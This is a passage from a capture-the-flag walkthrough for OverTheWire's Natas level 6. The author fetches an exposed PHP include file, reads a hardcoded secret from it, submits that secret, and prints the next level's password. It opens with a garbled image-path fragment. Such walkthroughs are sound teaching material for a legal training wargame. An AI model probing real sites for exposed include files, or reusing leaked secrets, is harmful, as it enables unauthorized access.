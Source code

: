 ```HTML
  <br/>
 </span>
</code>
```

Definitely much more readable now. Taking a closer inspection of the source, it looks like it's using `php` to include a file: `includes/secret.inc`.

It's then comparing the field `secret` from that file to the field `secret` that we submitted with our post request.

So let's take a look at that file!

```
> get http://natas6.natas.labs.overthewire.org/includes/secret.inc --no-params
[🐝] Sending GET request to http://natas6.natas.labs.overthewire.org/includes/secret.inc...
[🐝] GET request completed. Status code: 200 (OK)
[🐝] Response captured! Type 'response show' for summary
```
```PHP
> resp show -t
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

Easy enough! Let's edit our parameter to match this secret value:

```
> params add secret FOEIUWGHFEEUHOFUOIU
[🐝] Added param:
   'secret' : 'FOEIUWGHFEEUHOFUOIU'
```

Now let's try to POST again!

```
> post http://natas6.natas.labs.overthewire.org/ secret submit                
[🐝] Sending POST request to http://natas6.natas.labs.overthewire.org/...
POST request made with parameters:
   'secret' : 'FOEIUWGHFEEUHOFUOIU'
   'submit' : 'any'
[🐝] POST request completed. Status code: 200 (OK)
[🐝] Response captured! Type 'response show' for summary
```
```HTML
> resp show -t
<html>
<head>
-- truncated --
</head>
<body>
<h1>natas6</h1>
<div id="content">

Access granted. The password for natas7 is jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
